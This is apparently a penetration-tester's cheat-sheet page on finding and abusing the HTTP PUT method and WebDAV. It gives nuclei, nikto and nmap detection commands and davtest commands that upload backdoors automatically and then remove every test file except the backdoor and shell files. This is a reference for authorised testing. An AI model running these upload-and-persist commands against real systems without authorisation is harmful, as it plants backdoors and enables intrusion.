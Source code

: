 # 02 - PUT Upload

## 2.1 - Nuclei

Find a misconfiguration HTTP option to upload files.

```
$ nuclei -u <URL> -t ~/nuclei-templates -id put-method-enabled
```

## 2.2 - Nikto

```
$ nikto -host <URL> -Plugins put_del_test
```

## 2.3 - Network Mapper

```
$ nmap -p 80,443,8000,8080,8443 -Pn -n --script http-webdav-scan --script-args http-methods.url-path=/path/to/url <IP>
```

## 2.4 - Davtest

Upload backdoor automatically in each test.

```
$ davtest [-auth user:password] -sendbd auto -url http[s]://<IP>
```

Choose method to upload file for the executable file extension.

```
$ davtest [-auth user:password] -copy -sendbd auto -url http[s]://<IP>

$ davtest [-auth user:password] -move -sendbd auto -url http[s]://<IP>
```

Delete everything uploaded except for backdoor/shell files.

```
$ davtest -cleanup -url http[s]://<IP>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x01 - WebApp Security Scanners/Nikto/Usage/02 - Basic|Nikto]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/HTTP/04 - WebDAV/Scanners|Active Fingerprinting: WebDAV]]

### Github

- [Davtest](https://github.com/cldrn/davtest)

### Hacktricks

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/put-method-webdav.html)

### Arridae

- [Arridae: Exploiting HTTP PUT method](https://www.arridae.com/blogs/HTTP-PUT-method.php)